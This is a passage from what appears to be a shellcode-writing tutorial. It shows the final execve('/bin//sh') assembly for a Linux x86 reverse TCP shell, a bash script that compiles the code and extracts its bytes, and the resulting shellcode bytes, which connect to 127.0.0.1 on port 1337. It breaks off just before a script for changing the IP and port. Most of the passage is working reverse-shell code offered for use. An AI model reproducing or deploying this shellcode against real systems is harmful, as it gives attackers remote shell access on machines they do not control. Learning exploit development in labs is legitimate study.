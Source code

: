 We don't care about a proper exit so we are done. 

```nasm
;execve("/bin//sh", NULL, NULL) 

    push   eax          ; string terminator 0x00
    push   0x68732f2f   ; push /bin//sh in reverse order
    push   0x6e69622f
    mov    ebx,esp      ; ebx point to /bin//sh
                        ; ecx and edx already set to 0x00 (Null pointer)
    mov    al,0xb       ; execve syscall number
    int    0x80
```

## Customise the port and exec the shellcode

Now we will compile and generate the shellcode using this script (I've done a little update on the string output since the last post) :

```bash
#!/bin/bash

printf "[x] Assembling...\n"
nasm -f elf32 $1.nasm -o $1.o

printf "[x] Linking...\n"
ld $1.o -o $1

printf "[x] Done !\n\n"

printf "Shellcode : \n"
objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|grep -v 'format'|cut -f2 -d:|cut -f1-6 -d' '|  
tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

```plaintext
root@kali:~# ./compile.sh shell-reverse-tcp
[x] Assembling...
[x] Linking...
[x] Done !

Shellcode : 
"\\x31\\xdb\\xf7\\xe3\\x53\\x43\\x53\\x6a\\x02\\x89\\xe1\\x04\\x66\\xcd\\x80\\x97\\x5b\\x68\\x7f\\x00\\x00\\x01
\\x66\\x68\\x05\\x39\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\x43\\x6a\\x66\\x58\\xcd\\x80\\x87\\xcb
\\x87\\xdf\\x49\\xb0\\x3f\\xcd\\x80\\x75\\xf9\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3
\\xb0\\x0b\\xcd\\x80"
```

Next to customise the ip address and port, we will integrate this shellcode into a python script (updated too) :
